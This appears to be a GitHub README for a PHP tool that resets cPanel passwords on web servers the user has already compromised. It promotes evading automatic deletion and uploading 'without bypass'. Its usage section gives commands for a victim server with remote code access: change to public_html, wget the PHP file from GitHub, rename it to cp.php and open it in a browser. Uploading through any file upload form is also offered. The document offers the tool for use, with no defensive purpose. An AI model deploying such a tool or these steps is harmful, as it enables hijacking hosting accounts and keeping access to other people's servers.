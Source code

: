 # Cpanel Password Reset Tools

[![Build](https://img.shields.io/badge/Supported_OS-Linux-orange.svg)]()

An easy tool to reset cpanel password when you can't upload backdoor to server. This tool will be useful only if the password reset feature on cpanel is activated.

How to usage? Check this https://www.naufalardhani.com/2018/10/tutorial-reset-password-cpanel-terbaru.html


<p align="center">
  <img src="https://github.com/naufalardhani/cpanel-pass-reset/blob/master/v2.png" width="700" alt="accessibility text">
</p>


# What are the advantages?
- Can be uploaded to the server without bypass
- It will not be deleted automatically by the server

# How to usage
- You can upload this tool via any file upload form and access it!
- If you have a remote code access, you can write command like this 
1. `cd /public_html`
2. `wget https://raw.githubusercontent.com/naufalardhani/cpanel-pass-reset/master/web-bassed-v2.php`
3. `mv web-bassed-v2.php cp.php`
4. `Access it site.com/cp.php` 
